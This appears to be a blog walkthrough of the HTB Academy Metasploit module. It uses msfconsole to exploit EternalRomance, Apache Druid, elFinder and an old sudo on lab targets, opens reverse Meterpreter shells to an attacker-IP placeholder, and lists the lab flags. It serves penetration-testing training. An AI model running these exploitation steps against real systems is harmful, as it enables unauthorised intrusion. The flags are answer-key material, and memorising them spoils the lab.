Welcome to **Part 33** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Using the Metasploit Framework** (Tier I • Easy • Offensive). We break down the underlying mechanics of Metasploit Framework architecture, msfconsole navigation, auxiliary scanner modules, exploit execution, Meterpreter post-exploitation, and database workspace management, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-32-cracking-passwords-with-hashcat/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 32: Cracking Passwords with Hashcat</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 33 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-34-using-crackmapexec/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 34: Using CrackMapExec for Active Directory Dominance</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Using the Metasploit Framework` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/39](https://academy.hackthebox.com/module/39) |
| **Curriculum Tier & Difficulty** | `Tier I` • `Easy` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 33 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **Framework Architecture**: Dissects module types: exploits, payloads (singles, stagers, stages), auxiliary scanners, encoders, and post modules.
* **Database & Workspace Management**: Integrates PostgreSQL with `msfconsole` to manage engagement workspaces, hosts, services, and credentials.
* **Module Configuration**: Searches, configures targets, payloads, and parameters (`RHOSTS`, `LHOST`, `LPORT`) for reliable exploitation.
* **Meterpreter Deep-Dive**: Masters in-memory post-exploitation: process migration, credential dumping, port forwarding, and token stealing.
* **Automation with Resource Scripts**: Automates repetitive reconnaissance and multi-handler listeners using `.rc` resource scripts.

## Executive Summary & Assessment Scope

The Metasploit Framework is the world's most widely used penetration testing platform, providing an extensive repository of vetted exploits, network scanners, and sophisticated post-exploitation payloads.

In this module, we conduct a structured technical walkthrough of Metasploit. We manage database workspaces, launch auxiliary scanners, execute public exploits against vulnerable services, operate Meterpreter sessions, and extract all assessment flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Using the Metasploit Framework

> **Lab Question (Page 1)**: Which version of Metasploit comes equipped with a GUI interface?
>
> **Flag / Answer**: `Metasploit Pro`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Question: What command do you use to interact with the free version of
Metasploit?
Answer: msfconsole
Method: 'The msfconsole is probably the most popular interface to the Metasploit
Framework (MSF).'


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


### Modules

> **Lab Question (Page 2)**: Use the Metasploit-Framework to exploit the target with EternalRomance. Find the flag.txt file on Administrator's desktop and submit the contents as the answer.
>
> **Flag / Answer**: `HTB{MSF-W1nD0w5-3xPL01t4t10n}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

first lets open Metasploit on pwnbox:
```bash
msfconsole
```


*
*

We are in the Metasploit CLI.

In the CLI, lets search for 'EternalRomance' exploit.
Before we do – the exploit, known as 'MS17-010', exploits a vulnerability in
Windows SMB server, and obtain remote code exection:
search EternalRomance


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


*_Figure 2.2 — Lab execution and output verification (Page 2)_*


### means reconnaissance actions

There are 2 options – option #0 – exploit, and option #1 – auxiliary, which
means reconnaissance actions:
*from the section's module:

*
We go for the exploit. Meaning we have to choose the #0 option:
```bash
use 0
```


Now we will enter 'options' to see what inputs we need to place:
options


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


### So lets do just that

We can see what is required and what is not required.
Some of the required properties are alreadu filled with default values such aas
'LEAKATTEMPTS' or 'DBGTRACE' , we will keep them as such.

The local port (LPORT) and remote port (RPORT) are also preconfigured. They
will keep as well. The RPORT is preconfigured to port 445 – SMB port.

The local IP address (LHOST , also known as <attacker-IP>), and remote IP
address (RHOSTS, also known as <target-IP>) – those we will have to set to our
own pwnbox <attacker-IP>, and the provided target machine IP (<target-IP>).
So lets do just that:
```bash
set LHOST <attacker-IP>
set RHOSTS <target-IP>
```


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


*_Figure 4.3 — Lab execution and output verification (Page 4)_*


### Now that all is ready, lets run the exploit. We can use

When we are finished settings the values, it is a good practice to re-run
'options' to confirmed that all propertied are configured to the correct values.
We needed to set the correct attacker-IP and target-IP addresses in order to
obtain reverse shell that will grant us full control on the target machine.

Now that all is ready, lets run the exploit. We can use:
```bash
exploit
```
or
run
*There are no differences between those commands. *

We have a shell.

Now, as the shell session if of a windows machine, the session is 'Meterpreter' ,
a shell generated by the payload. But we will treat it as powershell (even
though it is not exactly), and paint the meterpreter commands in sea-blue.

First, lets run:
getuid
to determine out identity:


We are system! It means we can get the flag from the Adminnistrator's
Desktop:


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


*_Figure 5.2 — Lab execution and output verification (Page 5)_*


### ** here is some explanation about Meterpreter

```bash
cat C:/Users/Administrator/Desktop/flag.txt
```


*note – in Windows paths the slash is often backward slash '\' , but often in
Meterpreter a forward slash will be used '/', despite the machine being
Windows machine..

** here is some explanation about Meterpreter:


*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


*_Figure 6.3 — Lab execution and output verification (Page 6)_*


*_Figure 6.4 — Lab execution and output verification (Page 6)_*


### Payloads

> **Lab Question (Page 7)**: Exploit the Apache Druid service and find the flag.txt file. Submit the contents of this file as the answer.
>
> **Flag / Answer**: `HTB{MSF_Expl01t4t10n}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter Metasploit:
```bash
msfconsole
```

and in the CLI lets look for 'Apache Druid:
search "Apache Druid"


We have several options, we go for #0
```bash
use 0
```

now, when running the options – we will see we need to set RHOSTS and
LHOST (options screenshot will not be displayed in this section as well as they
are redundant, neither in any coming sections, unless necessary):
```bash
set LHOST <attacker-IP>
set RHOSTS <target-IP>
```
and run the exploit
run


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


### Lets confirm we are root first

We have a shell! This time it is linux.
meterpreter on linux is a bit annoying, so lets get us a proper bash shell:

shell
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```


We have a bash shell.

Lets confirm we are root first:

We are indeed root.


*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


*_Figure 8.3 — Lab execution and output verification (Page 8)_*


### Now, Lets look for the flag

Now, Lets look for the flag:
```bash
find / -type f -name flag.txt 2>/dev/null
```


The flag is in '/root/flag.txt' . lets take it:
```bash
cat /root/flag.txt
```


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Sessions

> **Lab Question (Page 10)**: The target has a specific web application running that we can find by looking into the HTML source code. What is the name of that web application?
>
> **Flag / Answer**: `elFinder`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets enter the target machine IP in the browser URL:

We can see the web application name right in the tab.

*in the HTML source code it will appear in the 'title' tag – the tag responsible
for the tab's content:

*


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### We will go for exploit #3

> **Lab Question (Page 11)**: Find the existing exploit in MSF and use it to get a shell on the target. What is the username of the user you obtained a shell with?
>
> **Flag / Answer**: `www-data`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets open Metasploit and look for 'elFinder':
```bash
msfconsole
```
search "elFinder"


We will go for exploit #3:
```bash
use 3
```

```bash
set RHOSTS and LHOST:
set LHOST <attacker-IP>
set RHOSTS <target-IP>
```


And run:
run


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


### will get us the machine's user

> **Lab Question (Page 12)**: The target system has an old version of Sudo running. Find the relevant exploit and get root access to the target system. Find the flag.txt file and submit the contents of it as the answer.
>
> **Flag / Answer**: `HTB{5e55ion5_4r3_sw33t}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

lets put the established meterpreter session in the background:
background


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


*_Figure 12.3 — Lab execution and output verification (Page 12)_*


*_Figure 12.4 — Lab execution and output verification (Page 12)_*


### And lets search for sudo relates exploit

And lets search for sudo relates exploit:
search sudo


*
*

*
*


We will use exploit #29, and apply it on our meterpreter session:
```bash
use 29
set session 1
set LHOST <attacker-IP>
```


And run:


*_Figure 13.1 — Lab execution and output verification (Page 13)_*


*_Figure 13.2 — Lab execution and output verification (Page 13)_*


*_Figure 13.3 — Lab execution and output verification (Page 13)_*


*_Figure 13.4 — Lab execution and output verification (Page 13)_*


### We have a second Meterpreter session. Lets investigate

run


We have a second Meterpreter session. Lets investigate:

We are root!

Now, based on the assumption the flag is located at '/root' as previous times:

*we can always use the technique we did at 'Payloads' section to established
```bash
bash shell, and find the flag. But I saw no need to repeat the process here as
```
well.*

